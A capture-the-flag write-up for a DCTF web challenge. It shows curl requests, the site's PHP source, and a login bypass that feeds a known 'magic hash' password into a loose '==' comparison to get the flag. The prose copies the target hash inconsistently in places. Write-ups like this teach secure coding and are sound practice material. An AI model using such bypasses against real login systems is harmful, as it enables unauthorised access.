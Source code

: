 # ghast(Web) - Writeup

## description

````
Some students have built their most secure website ever. Can you spot their mistake?

http://dctf1-chall-very-secure-site.westeurope.azurecontainer.io/
````

## answer

When you access the specified URL, the authentication screen for user name and password will be displayed.

```
┌──(root💀kali)-[/home/kali]
└─# curl -v http://dctf1-chall-very-secure-site.westeurope.azurecontainer.io/
*   Trying 20.82.56.43:80...
* Connected to dctf1-chall-very-secure-site.westeurope.azurecontainer.io (20.82.56.43) port 80 (#0)
> GET / HTTP/1.1
> Host: dctf1-chall-very-secure-site.westeurope.azurecontainer.io
> User-Agent: curl/7.74.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Sat, 15 May 2021 03:42:03 GMT
< Server: Apache/2.4.38 (Debian)
< X-Powered-By: PHP/7.4.19
< Vary: Accept-Encoding
< Content-Length: 1614
< Content-Type: text/html; charset=UTF-8
< 
<!DOCTYPE html>
<html>
<head>
    <title>Secure website</title>
    <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.0.0-beta3/dist/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-eOJMYsd53ii+scO/bJGFsiCZc+5NDVN2yr8+0RDqr0Ql0h+rP48ckxlpbzKgwra6" crossorigin="anonymous">
    <script src="https://cdn.jsdelivr.net/npm/bootstrap@5.0.0-beta3/dist/js/bootstrap.bundle.min.js" integrity="sha384-JEW9xMcG8R+pH31jmWH6WWP0WintQrMb4s7ZOdauHnUtxwoG2vI5DkLtS3qm9Ekf" crossorigin="anonymous"></script>
</head>
<body>
    <header>
        <nav class="navbar navbar-light bg-light">
            <div class="container navstyle">
                <a class="navbar-brand" href="#">Secure website</a>
            </div>
        </nav>
    </header>

    <div class="container pt-3 pb-2">
        <h1>
            To view the secure file, please enter the password.
        </h1>
        <form action="login.php" method="GET">
            <div class="input-group mb-3 input-sm">
                <input type="text" class="form-control" name="username" placeholder="Username" />
            </div>
            <div class="input-group mb-3">
                <input type="text" class="form-control" name="password" placeholder="Password" />
            </div>
            <div class="input-group mb-3">
                <input class="btn btn-primary" type="submit" value="Submit" />
            </div>
        </form>
        <div>
            This is a very secure website, so we will also include the <a href="source.php">source code</a>. Nobody will ever break it. It is the best.
        </div>
    </div>
</body>
* Connection #0 to host dctf1-chall-very-secure-site.westeurope.azurecontainer.io left intact
</html>
```

Check the source code.

http://dctf1-chall-very-secure-site.westeurope.azurecontainer.io/source.php

```
<?php
    if (isset($_GET['username']) and isset($_GET['password'])) {
        if (hash("tiger128,4", $_GET['username']) != "51c3f5f5d8a8830bc5d8b7ebcb5717df") {
            echo "Invalid username";
        }
        else if (hash("tiger128,4", $_GET['password']) == "0e132798983807237937411964085731") {
            $flag = fopen("flag.txt", "r") or die("Cannot open file");
            echo fread($flag, filesize("flag.txt"));
            fclose($flag);
        }
        else {
            echo "Try harder";
        }
    }
    else {
        echo "Invalid parameters";
    }
?>
```

A flag is displayed if the tiger128,4 hash value of the username is `51c3f5f5d8a8830bc5d8b7ebcb5717df` 
and the tiger128,4 hash value of the password is equal to `0e1327983807237937411964085731`.

`51c3f5f5d8a8830bc5d8b7ebcb5717df` turns out to be `admin` on Google,
`0e13278983807237937411964085731` uses PHP's loose matching, so if the hashed value starts with 0e, it is equal.

Checking the list of PHP hash collisions reveals the following.

```
LnFwjYqB:0e087005190940152635463034029558
```

If you throw a GET request to the URL in question, the flag will be displayed.

```
┌──(root💀kali)-[/home/kali]
└─# curl -v "http://dctf1-chall-very-secure-site.westeurope.azurecontainer.io/login.php?username=admin&password=LnFwjYqB"
*   Trying 20.82.56.43:80...
* Connected to dctf1-chall-very-secure-site.westeurope.azurecontainer.io (20.82.56.43) port 80 (#0)
> GET /login.php?username=admin&password=LnFwjYqB HTTP/1.1
> Host: dctf1-chall-very-secure-site.westeurope.azurecontainer.io
> User-Agent: curl/7.74.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Sat, 15 May 2021 04:06:18 GMT
< Server: Apache/2.4.38 (Debian)
< X-Powered-By: PHP/7.4.19
< Content-Length: 45
< Content-Type: text/html; charset=UTF-8
< 
* Connection #0 to host dctf1-chall-very-secure-site.westeurope.azurecontainer.io left intact
dctf{It's_magic._I_ain't_gotta_explain_shit.} 
```


###### dctf{It's_magic._I_ain't_gotta_explain_shit.} 
